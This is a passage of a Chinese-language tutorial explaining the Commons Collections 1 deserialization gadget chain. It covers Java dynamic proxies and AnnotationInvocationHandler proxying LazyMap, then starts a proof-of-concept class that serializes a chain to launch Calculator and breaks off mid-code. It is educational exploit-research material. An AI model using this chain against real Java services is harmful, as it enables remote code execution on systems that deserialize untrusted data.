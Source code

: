 

那么我们如何从readObject跳到invoke？ysoserial的作者想到的是**利用java代理对象**







##### java对象代理

java中，如果我们调用了别人的sdk，又觉得别人sdk里面某个代码写的不好，java不建议直接修改sdk代码，而是提供了一种叫做代理的设计模式（感觉类似hook）

总而言之，我们可以创建一个代理类来hook另一个类里面的方法。经常被人用来做破解



参考链接：

https://blog.csdn.net/qq_51274606/article/details/123440137





##### AnntationInvocationHandler利用

当动态代理类的代理对象调用任意方法的时候，就会进入到这个实现了InvocationHandler接口的类中的`invoke()`方法。

我们回看 `sun.reflect.annotation.AnnotationInvocationHandler` ，会发现实际上这个类就是实现了InvocationHandler接口（AnnotationInvocationHandler本身就是一个InvocationHandler类），因此能够用作动态代理。

我们如果将这个对象用Proxy进行代理，那么在`readObject()`的时候，只要调用任意方法，就会进入到 `AnnotationInvocationHandler#invoke` 方法中，进而触发我们的 `LazyMap#get` 



那么，如果我们用AnnotationInvocationHandler去代理LazyMap呢？

```java
//AnnotationInvocationHandler代理了map
A = new AnnotationInvocationHandler();
//中间有一步注册的操作
A.setValue() ===> A.invoke ===> A.memberValues.get()  ===> LazyMap.get()
```



最终POC：

```java
package org.example2;

import org.apache.commons.collections.Transformer;
import org.apache.commons.collections.functors.ChainedTransformer;
import org.apache.commons.collections.functors.ConstantTransformer;
import org.apache.commons.collections.functors.InvokerTransformer;
import org.apache.commons.collections.map.LazyMap;
import org.apache.commons.collections.map.TransformedMap;

import java.io.*;
import java.lang.annotation.Retention;
import java.lang.annotation.Target;
import java.lang.reflect.*;
import java.util.HashMap;
import java.util.Map;

public class CCC1 {
    public static void main(String[] args) throws Exception {
        byte[] evilData = serialize(cc1("/System/Applications/Calculator.app/Contents/MacOS/Calculator"));
        unserialize(evilData);
    }

    static Object cc1(String args) throws Exception{
        Transformer[] transformers = new Transformer[]{
```
